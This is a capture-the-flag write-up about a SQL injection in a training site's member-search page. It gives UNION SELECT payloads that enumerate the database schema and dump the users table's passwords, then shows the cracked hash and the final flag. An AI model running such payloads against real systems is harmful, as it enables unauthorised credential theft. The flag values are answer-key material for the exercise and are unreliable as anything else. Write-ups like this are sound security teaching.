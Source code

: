# SQL Injection

The member page `/?page=member` ontains a classic HTTP form to search for a member by their ID.  
We can quickly see that the input is vulnerable to SQL injection:  
If we enter something invalid, like a letter (since IDs can only be numeric), we see an SQL error displayed on the page.  

Let's gather some information about the database:  

- `0 UNION  SELECT SCHEMA_NAME,2 FROM INFORMATION_SCHEMA.SCHEMATA` : This query can give us informations about schematas.  

- `0 UNION  SELECT TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES` : This one about tables.  

- `0 UNION  SELECT COLUMN_NAME,TABLE_NAME FROM INFORMATION_SCHEMA.COLUMNS` : This one about columns.  

With all this information, we are able to extract extra informations about the users "GetTheFlag" from `Member_Sql_Injection.users`

- `0 UNION SELECT Commentaire, countersign FROM Member_Sql_Injection.users`

> Decrypt this password -> then lower all the char. Sh256 on it and it's good : 5ff9d0165b4f92b14994e5c685cdce28

The password obtained, 5ff9d0165b4f92b14994e5c685cdce28, is hashed.  
Using a hash decryption tool, we can retrieve the original password:  
> FortyTwo

Then, retrieve the real password by following the instructions:  
> FortyTwo -> fortytwo -> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5